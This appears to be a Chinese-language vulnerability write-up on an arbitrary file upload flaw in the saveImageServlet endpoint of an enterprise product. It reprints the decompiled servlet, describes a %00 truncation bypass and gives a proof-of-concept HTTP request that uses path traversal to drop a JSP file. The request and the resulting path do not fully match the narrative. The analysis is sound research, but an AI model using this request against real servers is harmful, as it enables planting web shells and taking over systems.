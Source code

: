 ## saveImageServlet 任意文件上传漏洞分析

官方更新了一个漏洞，说saveImageServlet接口存在任意文件上传漏洞 ，分析一下

```java
package nc.uap.wfm.action;

import java.io.DataOutputStream;
import java.io.File;
import java.io.FileOutputStream;
import java.io.FilterOutputStream;
import java.io.IOException;
import java.util.UUID;
import javax.servlet.ServletException;
import javax.servlet.ServletInputStream;
import nc.uap.lfw.core.exception.LfwRuntimeException;
import nc.uap.lfw.servletplus.annotation.Action;
import nc.uap.lfw.servletplus.annotation.Servlet;
import nc.uap.wfm.action.WfBaseServlet;
import nc.uap.wfm.logger.WfmLogger;

@Servlet(path="/servlet/saveImageServlet")
public class SaveImageServlet
extends WfBaseServlet {
    private static final long serialVersionUID = -5603687395645617927L;

    @Action(method="POST")
    public void doPost() throws ServletException, IOException {
        this.response.setContentType("application/octet-stream");
        String filename = this.request.getParameter("filename");
        if (filename == null || "".equals(filename)) {
            filename = UUID.randomUUID().toString();
        }
        filename = filename + ".png";
        String savePath = this.request.getRealPath("") + "/processxml/images/" + filename;
        ServletInputStream is = this.request.getInputStream();
        FilterOutputStream dos = null;
        try {
            int size = 0;
            byte[] tmp = new byte[10240];
            File f = new File(savePath);
            dos = new DataOutputStream(new FileOutputStream(f));
            int len = -1;
            while ((len = is.read(tmp)) != -1) {
                ((DataOutputStream)dos).write(tmp, 0, len);
                size += len;
            }
            ((DataOutputStream)dos).flush();
            dos.close();
        }
        catch (IOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        finally {
            try {
                if (is != null) {
                    is.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
            try {
                if (dos != null) {
                    dos.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
        }
    }
}

```
![image](https://github.com/wy876/JavaCode/assets/139549762/0aad419b-a532-4e59-bd6f-45fa77ca57c4)

从代码上看，上传文件名进行了处理，` filename = filename + ".png";`   将后缀拼接上了.png格式然后将文件上传，因为强制加上了.png

按道理来说是不存在漏洞的

本地我也进行测试了，基本上不可以，上传的文件都被强制加上了png

![image](https://github.com/wy876/JavaCode/assets/139549762/470d6ac4-82b1-41e8-9c70-bbd786f6f757)

想起来之前网上有文章 利用Windows特性加上 `%00 ` 就成功上传了

![image](https://github.com/wy876/JavaCode/assets/139549762/f802bd33-a0c2-4b50-ab5a-a0e93f382bd7)



数据包：

```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../test.jsp HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件上传路径`http://ip:port/portal/processxml/1.jsp`

